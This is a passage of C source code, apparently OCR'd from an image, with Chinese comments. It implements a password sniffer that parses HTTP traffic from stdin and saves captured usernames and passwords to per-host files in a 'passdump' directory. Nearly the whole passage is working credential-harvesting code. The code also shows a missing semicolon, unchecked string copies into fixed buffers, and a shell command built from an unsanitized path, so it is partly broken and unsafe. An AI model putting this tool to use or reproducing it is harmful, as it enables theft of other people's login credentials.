 ```
            {
                pass[i]='\0';
                flag=1;
            }
        }
    }
    else 
    {
        strcpy(user,"unknown");     strcpy(pass,"unknown");     }   update_log(basepath,host,user,pass); } 
//写文本文件保存信息
void writeLog(char *path,char *user,char *pass)
{
    FILE *fp = fopen(path,"a");
    fputs("\r\n",fp);
    fputs(user,fp);
    fputs("\r\n",fp)
    fputs(pass,fp);
    fputs("\r\n",fp);
    fflush(stdout);
    fclose(fp);
}

//写文件，以 host 命名，因为是直接读的 Host: ***.com，因此去掉前面的前缀
void update_log(char *basepath,char *host,char *user,char *pass)
{
    char tmppath[1629];
    strcpy(tmppath,basepath);
    strcat(tmppath,"/passdump/");
    writeLog(strcat(tmppath,host+6),user,pass);
}

int main()
{
    char basepath2[128];
    char basepath[128];
    char buffer[1629]="0";
    char pass[1629]="0";
    char pass2[1629]="0";
    char host[1629]="0";
    char host2[1629]="0";
    int flag=0;

    char mkdir[128]="mkdir "; 

    get_basepath(basepath);

    strcat(mkdir,basepath);
    strcat(mkdir,"/passdump");

    //先保证存在保存的文件夹
    system(mkdir);

    while(1)
    {
        fgets(buffer,1628,stdin);
        //如果是空行，代表一个数据包结束 或者 紧接着 POST 内容
        if(strcmp(buffer,"\n")==0)
        {
            //已经出现了记录？写文件然后清空当前密码记录
            if((strcmp(host,"0")!=0)&&(strcmp(pass,"0")!=0))
            {
                //干掉 referer，免得一个密码记录好多次
```